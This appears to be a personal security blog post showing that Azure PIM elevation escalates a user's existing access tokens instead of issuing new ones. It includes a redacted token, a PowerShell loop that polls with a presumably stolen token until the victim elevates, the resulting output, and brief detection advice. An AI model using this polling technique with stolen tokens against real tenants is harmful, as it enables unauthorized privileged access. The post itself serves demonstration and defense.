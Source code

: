 ```yaml
---
layout: post
title: Are you sure you know Azure PIM?
date: '2024-01-26 12:12:09'
---
```


Azure PIM is good, but there is always **_but_**

Everything in Azure based on tokens, when you authenticate with you modern CBA method you will get again token back which will give you access to resources. What is important - administrative access have option to "escalate" tokens for some time to do **real job** and your access expire. But is it really expire? Or just wait until you will _escalate_ again?

It is require ID P2/Governance license .. 

And not working as moste people think .. It DOES NOT create new token, it is juste escalate ALL tokens which is connected to elevated account!

Really good blog from Cody Burkard describe main points:
https://codyburkard.com/blog/jitprivilegeescalation/

But lets test! =)

Get token!

![Access Token and refresh . . jepp refresh always come with it](../images/03/bilde1.png){: .mx-auto.d-block :}

Token info (redacted):

>{
  "aud": "https://management.core.windows.net/",
  "iss": "https://sts.windows.net/",
  "iat": 1706522835,
  "nbf": 1706522835,
  "exp": 1706527683,
  "acr": "1",
  "aio": "A",
  "amr": [
    "pwd",
    "mfa"
  ],
  "appid": "1",
  "appidacr": "0",
  "family_name": "Borodai",
  "given_name": "Artem",
  "groups": [
    "e"
  ],
  "idtyp": "user",
  "ipaddr": "1",
  "name": "Artem Borodai",
  "oid": "c",
  "puid": "1",
  "rh": "0.A",
  **"scp": "user_impersonation",**
  "sub": "6",
  "tid": "4",
  "unique_name": "artem.borodai@blinq",
  "upn": "artem.borodai@blinq",
  "uti": "P",
  "ver": "1.0",
  "wids": [
    "b"
  ],
  "xms_cae": "1",
  "xms_cc": [
    "CP1"
  ],
  "xms_filter_index": [
    "129"
  ],
  "xms_rd": "0.4",
  "xms_ssm": "1",
  "xms_tcdt": 1614601636
>}

Lets play with access =)

![Access denied, try PIM, I am waiting](../images/03/bilde3.png){: .mx-auto.d-block :}

Nope, 403, which is right user not PIMed . . 

And if we steal token, how we will find out if user is pimed??? Just run script =)

>while (1 -eq 1 ){
>$command=try{New-AzADApplication -DisplayName blinQ *>&1}catch{$_}
>
>$command | Out-File c:\CIS\iwanttoknow.txt -Append
>
>start-sleep -seconds 10
}

Then user PIMed . . 

And jepp - token escalated without any additional moves . . 

>Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
>At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>     CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
} }:<>f__AnonymousType121) [New-AzADApplication_CreateExpanded], Exception
     FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
>Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>     CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
>} }:<>f__AnonymousType121) [New-AzADApplication_CreateExpanded], Exception
     FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   694f2d2f-e5x
>
>
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   a0b7f9c7-e3x

Detection:

Only unusual IP, and of course Admin access should be limited to PAW IP (which I never saw in my life . . )

![Ups I did it again](../images/03/bilde4.png){: .mx-auto.d-block :}

P.S: If it was interesting for you - read carefully Cody blog up there . . 